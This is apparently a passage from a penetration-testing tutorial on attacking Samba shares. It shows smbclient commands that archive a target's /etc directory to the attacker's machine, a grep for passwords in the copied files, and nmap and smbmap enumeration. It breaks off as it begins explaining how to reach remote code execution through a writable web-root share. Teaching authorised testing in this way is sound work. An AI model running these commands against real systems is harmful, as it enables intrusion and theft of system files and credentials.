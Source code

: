 #### Additionally, another useful command for data exfiltration when conducting post-exploitation tasks using smbclient is the “tar” command. With the tar command, we can create an archive of all files within a current directory, for local perusal later.

```
smb: \rootfs\tmp\rootfs\> cd etc
smb: \rootfs\tmp\rootfs\etc\> tar c ../tmp/all_files.tar *
```

#### The above will create a tar archive of the /etc/ directory on the target system to our local systems’ /tmp directory.

#### We can then extract, and start enumerating files for sensitive content, passwords, etc.

```
root@tester# tar xf /tmp/all_files.tar
root@tester# cd /tmp/rootfs/tmp/rootfs/etc/
root@tester# grep -r "password" * 2>&1 /dev/null
```

## From Writable Share to RCE

In certain situations where we have a fully patched Samba server, but have a writeable share available to us,we discover that a server we have enumerated is running a patched Samba server, and contains a share named “www,” which appears to be possibly configured to allow administrators to easily update an internal web applicationUsing our previous checks for Samba version and available shares using the Nmap smb-os-discovery NSE script, and smbmap, we have determined OS and Samba Version:

```
nmap --script smb-os-discovery 192.168.13.21 -p 445
```

#### We have also determined any shares that are available to us, as well as seeing that Guest sessions to the shares are possible as well:

```
smbmap -H 192.168.13.21
```

#### This finding is good news for us for a couple of reasons:

1. Web roots often contain files specific to a web server configuration, and can furthermore be used to obtain credentials to other services, .e.g, MySQL
2. Being able to write to a web root, is even better depending on the web server configuration; for instance, is PHP installed? Are there any other web server-interpreted languages we can use to our advantage? Can we upload any files to this directory, and how will the web server handle our files? Can we exploit that to obtain remote command execution?

Our first task is to connect to the share, and have a look at its contents, and secondly, we’ll want to determine if the Samba server has any HTTP ports listening, which might be serving the contents of the share.
